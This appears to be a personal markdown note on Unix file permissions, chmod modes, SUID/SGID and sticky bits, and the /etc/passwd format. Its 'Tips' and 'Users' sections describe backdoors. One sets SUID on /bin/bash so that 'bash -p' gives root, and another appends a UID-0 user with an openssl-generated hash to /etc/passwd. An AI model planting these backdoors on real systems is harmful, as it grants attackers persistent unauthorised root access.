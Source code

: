 Each file in the filesystem in Unix has some privileges, marked as a triplet of `rwx` with a leading `-` or `d` (directory).

Example (from `ls -a`):
`drwxrwxr-x`

The first triplet represents the file owner, the second the file's group and the last everyone else.

The triplet can be used in binary form to give a number. `rw-` would be `110`, or 6
#### Change them
Permissions can be changed using the `chmod` command (change mode)

Example:
`chmod +x myfile.txt` to make `myfile.txt` executable
`chmod 777 myfile.txt` to give all permissions to the file
`chmod 741` to give: all to owner, read only to group and execute only to all other users 
`chmod +s /bin/bash` to give **owner's** permission instead of user's (in this case, any user executing `bash -p` would have root privileges as `/bin/bash` has been (usually) created by root)

##### Set UID/GIT + sticky bit
File/directory has yet another permission which can be either ., S or s

`chmod 4xxx myfile` to give file setUID bit: execute file as OWNER and not USER
`chmod 2xxx myfile` for same but with group
Finally, sticky bit can be used to remove deleltion permission on a directory

If you want to find SUID files in your system, just run `find / -perm -4000`


## Tips
A nice backdoor on the target system can simply be to change the permissions on `/bin/bash` with:
```bash
$ chmod u+s /bin/bash
```

Then, simply run `/bin/bash -p` on you should have root access

## Users

Can edit /etc/passwd with plaintext hashed password to add another user with root privileges:
	echo "thor:<mypassd>:0:0:thor:/root:/bin/bash" >> /etc/passwd

with <mypassd> generated from `openssl passwd <non-hashed-passwd>`


All users within /etc/passwd are stored as:
"name:passwd:UID:GID:info:homedir:shell"




